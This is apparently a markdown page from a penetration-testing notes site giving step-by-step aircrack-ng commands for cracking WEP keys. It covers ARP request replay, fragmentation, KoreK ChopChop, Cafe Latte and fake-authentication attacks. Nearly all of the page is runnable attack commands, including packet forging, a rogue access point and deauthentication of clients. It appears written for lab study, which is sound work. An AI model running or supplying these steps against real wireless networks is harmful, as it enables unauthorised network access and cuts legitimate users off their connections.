 ```yaml
---
title: WEP (Wired Equivalent Privacy)
parent: Wireless Attack
layout: default
nav_order: 2
---
```


You can disable monitor mode anytime with `sudo airmon-ng stop wlan0mon`

## ARP Request Replay Attack (with ARP request, client needed)

1. Monitor mode:\
   `sudo airmon-ng start wlan0`
2. Confirm it is in and get the interface name:\
   `iwconfig`
3. Start with this to find the network interested in:\
   `sudo airodump-ng wlan0mon --band abg`
4. Once you find it be specific on channel, also write it to file (optional to use `--bssid`):\
   `sudo airodump-ng wlan0mon -c 1 -w WEPfile`
5. Open ANOTHER TERMINAL and launch ARP request replay attack (b is the BSSID of the AP and h is the station/client MAC):\
   `sudo aireplay-ng -3 -b B2:D1:AC:E1:21:D1 -h 4A:DD:C6:71:5A:3B wlan0mon`
6. Let it run for a while, then use aircrack-ng to crack it:\
   `aircrack-ng -b B2:D1:AC:E1:21:D1 WEPfile-01.cap`

## Fragmentation Attack (no ARP request, client needed)

1. Monitor mode:\
   `sudo airmon-ng start wlan0`
2. Confirm it is in and get the interface name:\
   `iwconfig`
3. Start with this to find the network interested in:\
   `sudo airodump-ng wlan0mon --band abg`
4. Once you find it be specific on channel, also write it to file (optional to use `--bssid`):\
   `sudo airodump-ng wlan0mon -c 1 -w WEPfile`
5. Open ANOTHER TERMINAL and launch fragmentation attack (b is the BSSID of the AP and h is the station/client MAC):\
   `sudo aireplay-ng -5 -b B2:D1:AC:E1:21:D1 -h 4A:DD:C6:71:5A:3B wlan0mon`
6. You should receive something like cap file and xor wrote (press y when asked). Next use below on the cap file to obtain source and destination IP:\
   `tcpdump -s 0 -n -e -r replay_src-0805-191842.cap`
7. Access point mac in `-a`, station MAC in `-h`, access point IP in `-k`, station IP in `-l`, xor file `-y`, output ARP file `-w`. If no IP from the above can put 255.255.255.255 for both `-k` and `-l`:\
   `packetforge-ng -0 -a A2:BD:32:EB:21:15 -h 42:E9:11:39:88:AE -k 192.168.1.1 -l 192.168.1.129 -y fragment-0805-191851.xor -w forgedarp.cap`
8. Inject this back to generate IV using interactive packet replay (`-h` is station MAC and `-r` is the output from above):\
   `sudo aireplay-ng -2 -r forgedarp.cap -h 42:E9:11:39:88:AE wlan0mon`
9. Can open another new terminal if you want it to be faster (3 terminal now):\
    `sudo aireplay-ng -3 -b A2:BD:32:EB:21:15 -h 42:E9:11:39:88:AE wlan0mon`
10. Crack it after a while:\
    `aircrack-ng -b A2:BD:32:EB:21:15 WEPfile-01.cap`

## Korek Chop Chop Attack (Client needed)

1. Monitor mode:\
   `sudo airmon-ng start wlan0`
2. Confirm it is in and get the interface name:\
   `iwconfig`
3. Start with this to find the network interested in:\
   `sudo airodump-ng wlan0mon --band abg`
4. Once you find it be specific on channel, also write it to file (optional to use `--bssid`):\
   `sudo airodump-ng wlan0mon -c 1 -w WEPfile`
5. Open ANOTHER TERMINAL and launch Korek Chop Chop attack (b is the BSSID of the AP and h is the station/client MAC):\
   `sudo aireplay-ng -4 -b C8:D1:4D:EA:21:A6 -h 7E:8D:FC:DD:D7:2C wlan0mon`
6. You should receive something like cap file and xor wrote (press y when asked). Next use below on the cap file to obtain source and destination IP:\
   `tcpdump -s 0 -n -e -r replay_dec-0805-191842.cap`
7. Access point mac in `-a`, station MAC in `-h`, access point IP in `-k`, station IP in `-l`, xor file `-y`, output ARP file `-w`. (Not sure: If no IP from the above can put 255.255.255.255 for both `-k` and `-l`):\
   `packetforge-ng -0 -a A2:BD:32:EB:21:15 -h 42:E9:11:39:88:AE -k 192.168.1.1 -l 192.168.1.129 -y replay_dec-1229-160018.xor -w forgedarp.cap`
8. Inject this back to generate IV using interactive packet replay (`-h` is station MAC and `-r` is the output from above):\
   `sudo aireplay-ng -2 -r forgedarp.cap -h 7E:8D:FC:DD:D7:2C wlan0mon`
9. Can open another new terminal if you want it to be faster (3 terminal now):\
    `sudo aireplay-ng -3 -b C8:D1:4D:EA:21:A6 -h 7E:8D:FC:DD:D7:2C wlan0mon`
10. Crack it after a while:\
    `aircrack-ng -b C8:D1:4D:EA:21:A6 WEPfile-01.cap `

## Cafe Latte Attack

1. Monitor mode:\
   `sudo airmon-ng start wlan0`
2. Confirm it is in and get the interface name:\
   `iwconfig`
3. Start with this to find the network interested in:\
   `sudo airodump-ng wlan0mon --band abg`
4. Once you find it be specific on channel, also write it to file (optional to use `--bssid`):\
   `sudo airodump-ng wlan0mon -c 1 -w WEPfile`
5. Open ANOTHER TERMINAL and launch Cafe Latte attack (b is the BSSID of the AP and h is the station/client MAC):\
   `sudo aireplay-ng -6 -b B2:D1:AC:E1:21:D1 -h 7E:8D:FC:DD:D7:2C wlan0mon`
6. Open ANOTHER TERMINAL and create a fake access point (a is BSSID, e is ESSID, c is channel, W 1 is WEP, L is Cafe Latte):\
   `sudo airbase-ng -c 1 -a B2:D1:AC:E1:21:D1 -e "HackTheWifi" wlan0mon -W 1 -L`
7. Deauthenticate the client from actual AP and force them to join us:\
   `sudo aireplay-ng -0 10 -a B2:D1:AC:E1:21:D1 -c B6:1F:98:CB:10:78 wlan0mon`
8. Crack it after a while:\
   `aircrack-ng -b B2:D1:AC:E1:21:D1 WEPfile-01.cap`

## Fake Authentication (Client Not Needed)

1. Monitor mode:\
   `sudo airmon-ng start wlan0`
2. Confirm it is in and get the interface name:\
   `iwconfig`
3. Start with this to find the network interested in:\
   `sudo airodump-ng wlan0mon --band abg`
4. Once you find it be specific on channel, also write it to file (optional to use `--bssid`):\
   `sudo airodump-ng wlan0mon -c 1 -w WEPfile`
5. Open ANOTHER TERMINAL and try fake authentication with (ESSID in e, AP MAC in a, our own MAC in h, keep alive interval in q):\
   `sudo aireplay-ng -1 1000 -o 1 -q 5 -e HTB-Wireless -a 60:38:E0:71:E9:DC -h 00:c0:ca:98:3e:e0 wlan0mon`
6. Open ANOTHER TERMINAL and use Korek or fragmentation. Example here is Korek (b is BSSID, h is our own MAC):
   `sudo aireplay-ng -4 -b 60:38:E0:71:E9:DC -h 00:c0:ca:98:3e:e0 wlan0mon`
7. Access point mac in `-a`, our MAC in `-h`, access point IP in `-k`, our IP in `-l`, xor file `-y`, output ARP file `-w`. (Not sure: If not sure IP just use 255.255.255.255):\
   `packetforge-ng -0 -a 60:38:e0:71:e9:dc -h 00:c0:ca:98:3e:e0 -k 192.168.1.1 -l 192.168.1.64 -y replay_dec-1229-160018.xor -w forgedarp.cap`
8. Inject this back (`-r` is the output from above):\
   `sudo aireplay-ng -2 -r forgedarp.cap wlan0mon`